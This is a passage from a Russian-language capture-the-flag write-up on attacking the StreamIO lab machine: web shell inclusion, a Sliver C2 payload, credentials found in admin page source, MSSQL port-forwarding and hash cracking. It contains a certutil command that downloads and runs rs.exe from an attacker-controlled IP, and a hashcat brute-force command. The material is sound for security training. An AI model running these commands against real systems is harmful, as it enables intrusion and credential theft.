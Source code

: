 Так как мы не загружаем веб шелл, а только инклюдим, нам нужно будет это делать с каждым запросом. 

![e092817e578e7cae56283fb65f8c4794.png]({{ site.baseurl }}/images/e092817e578e7cae56283fb65f8c4794.png)
*Оно работает!*

Давайте запустим полезную нагрузку sliver, 

#### *полезная нагрузка*

*В реальном ред-тиминге, пожалуйста, никогда не загружайте не обфусцированный sliver c2 shell на систему, вы будете замечены EDR или чем-либо еще, немедленно.*

```powershell

certutil.exe -f -split -urlcache http://10.10.14.117/rs.exe && .\rs.exe

```

![8cfcea2cb8dd744d9e1ece7d6219566c.png]({{ site.baseurl }}/images/8cfcea2cb8dd744d9e1ece7d6219566c.png)

***

## Обнаружение учётных записей db_user и db_admin
Найдены по адресу: **C:\inetpub\streamio.htb\admin\index.php** 
в исходном коде страницы админ панели.

![5534b13189a2a56bcf7ed9b0d07340fa.png]({{ site.baseurl }}/images/5534b13189a2a56bcf7ed9b0d07340fa.png)

*Креды для db_user нам не интересны, у него меньше привилегий чем у администратора.*

## Посмотрим на БД MSSQL

![f65d0320b6c921e75ca7a45105780f24.png]({{ site.baseurl }}/images/f65d0320b6c921e75ca7a45105780f24.png)
Если мы запустим `netstat -ano`, то увидим список процессов на портах, мы видим порт для MSSQL, поэтому мы прокинем порт от нашей машины на хост который атакуем, чтобы заглянуть внутрь.

![5b42455c03d93cdc03030c0711ad5752.png]({{ site.baseurl }}/images/5b42455c03d93cdc03030c0711ad5752.png)

В БД я нашёл хэш nikk37, пользователь с таким же именем существует и в домене который мы атакуем.

![91983bdab4dc80e03c39b0fce481c6c7.png]({{ site.baseurl }}/images/91983bdab4dc80e03c39b0fce481c6c7.png)

![4f82ed80b48bdff3614f31e0fb3e0519.png]({{ site.baseurl }}/images/4f82ed80b48bdff3614f31e0fb3e0519.png)

Давайте сбрутим его с помощью hashcat

```bash
hashcat -m 0 -a 0 nikk37.hash --username -o nikk37.recovered /usr/share/wordlists/rockyou.txt
```

![f0614a847aebe1027f03d7b5dcd972cf.png]({{ site.baseurl }}/images/f0614a847aebe1027f03d7b5dcd972cf.png)

***

